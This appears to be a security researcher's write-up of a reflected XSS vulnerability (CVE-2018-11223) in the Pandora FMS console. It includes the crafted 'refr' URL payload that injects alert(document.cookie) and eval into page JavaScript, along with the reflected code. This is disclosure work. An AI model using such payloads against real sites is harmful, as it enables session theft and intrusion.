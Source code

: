 This error appears only if the created user doesn't belongs to any group, so I proceeded to assign the user to the lowest permission profile, `operator (read)`. Once added this error disappears.

For the test I'll proceed without an assigned profile to test the platform with the lowest possible privileges.

On this version multiple SQLi(s) have been fixed so as multiple XSS(s).

## XSS on parameter `refr` _(CVE-2018-11223)_

The application uses a parameter to set a refresh rate, this parameter is inserted directly without sanitizing it into a `parseInt` javascript function. With a crafted request a user could execute untrusted code on the client side:

The original query looks like

```+
http://127.0.0.1/pandora_console/index.php?sec=estado&sec2=operation/agentes/estado_agente&refr=42
```

And the `42` will be inserted into the code as shown in the next snippet

```javascript
refr_time = parseInt("42");
if (isNaN(refr_time)) {
	refr_time = 0;
}
```

Now, the crafted parameter

```:
http://127.0.0.1/pandora_console/index.php?sec=estado&sec2=operation/agentes/estado_agente&refr=42%22);alert(document.cookie);eval(a=%22foo
```

And the reflected the query string in the code:

```javascript
refr_time = parseInt("42");alert(document.cookie);eval(a="foo");
if (isNaN(refr_time)) {
	refr_time = 0;
}
```

![SQL_error](assets/refr_xss.png)
